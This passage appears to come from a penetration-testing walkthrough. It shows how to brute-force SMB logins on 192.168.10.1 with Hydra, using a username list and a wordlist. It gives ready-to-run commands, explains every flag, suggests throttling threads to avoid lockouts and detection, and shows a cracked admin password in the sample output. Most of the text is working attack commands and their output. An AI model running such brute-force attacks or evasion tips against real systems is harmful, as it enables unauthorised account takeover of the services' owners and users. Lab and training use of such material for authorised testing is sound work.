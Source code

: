 we have added them to a list called users.txt
![](attachment/91b4ef77cdccca87573cfb8fa59ec8b8.png)

Now that we have the list on names saved we open up the terminal and we run hydra

```bash
hydra -V -L users.txt -P /usr/share/wordlists/small.txt smb://192.168.10.1 -o passwords.txt
```

if you want to speed this up you can run this instead
```bash
hydra -L users.txt -P /usr/share/wordlists/small.txt -t 16 smb://192.168.10.1
```
>This is a parallel task, it will speed up the speed of the brute force attack, but may also trigger a lockout 
>>to avoid detection, it would be wise to create a script that has sleep intervals or add -t 4 somewhere in the command

###### 1.2 Hydra Command Breakdown
---------
**Command**:  **`hydra`** -L users.txt -P /usr/share/wordlists/small.txt -t 16 smb://192.168.10.1 -o cracked.txt


**Breakdown**:

- **`hydra`**: The main command for Hydra, a popular password-cracking tool.
- **`-L users.txt`**: Specifies the list of usernames to try, where 'users.txt' contains one username per line.
- **`-P /usr/share/wordlists/small.txt`**: Points to the password list file, here 'small.txt' from '/usr/share/wordlists/'.
- **`-t 16`**: Sets the number of parallel connections (threads) to 16, affecting the attack's speed.
- **`smb://192.168.10.1`**: Targets the SMB (Server Message Block) service at the IP address 192.168.10.1.
- **`-o`**: this will save the output to a file in this case called 'cracked.txt'

**Usage**:
This command is used to perform a brute-force attack against an SMB service running on the IP address 192.168.10.1. It attempts to log in with each username from 'users.txt' and each password from 'small.txt', using 16 threads.



```bash
[445][smb] host: 192.168.10.1   login: A.George   password: ethylene
```
as you can see when the command has finished you will have gotten a password for one of the admins (if you are lucky)
